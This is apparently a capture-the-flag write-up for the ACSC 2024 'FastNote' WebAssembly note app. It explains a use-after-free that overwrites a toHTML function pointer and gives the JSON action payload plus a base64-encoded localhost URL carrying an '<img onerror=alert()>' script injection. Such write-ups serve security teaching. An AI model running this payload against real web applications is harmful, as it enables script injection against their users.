


# ACSC24

ACSC 2024 Challenges

## FastNote

### Description

I heard WebAssembly is super fast, so I made a note-taking app with it. What could go wrong?

### Solution

Use After Free (UAF) to overwrite the `toHTML` function pointer to the `populateNoteHTML` JavaScript function.





```json
[
  {
    "action": "add",
    "title": "",
    "content": ""
  },
  {
    "action": "delete",
    "noteId": 0
  },
  {
    "action": "add",
    "title": "\u0005\u0000\u0000\u0000",
    "content": ""
  }
]
```

`http://127.0.0.1:5500/?s=WwogIHsKICAgICJhY3Rpb24iOiAiYWRkIiwKICAgICJ0aXRsZSI6ICI8aW1nL3NyYy9vbmVycm9yPSdhbGVydCgpJz4iLAogICAgImNvbnRlbnQiOiAiIgogIH0sCiAgewogICAgImFjdGlvbiI6ICJkZWxldGUiLAogICAgIm5vdGVJZCI6IDAKICB9LAogIHsKICAgICJhY3Rpb24iOiAiYWRkIiwKICAgICJ0aXRsZSI6ICJcdTAwMDVcdTAwMDBcdTAwMDBcdTAwMDAiLAogICAgImNvbnRlbnQiOiAiIgogIH0KXQ`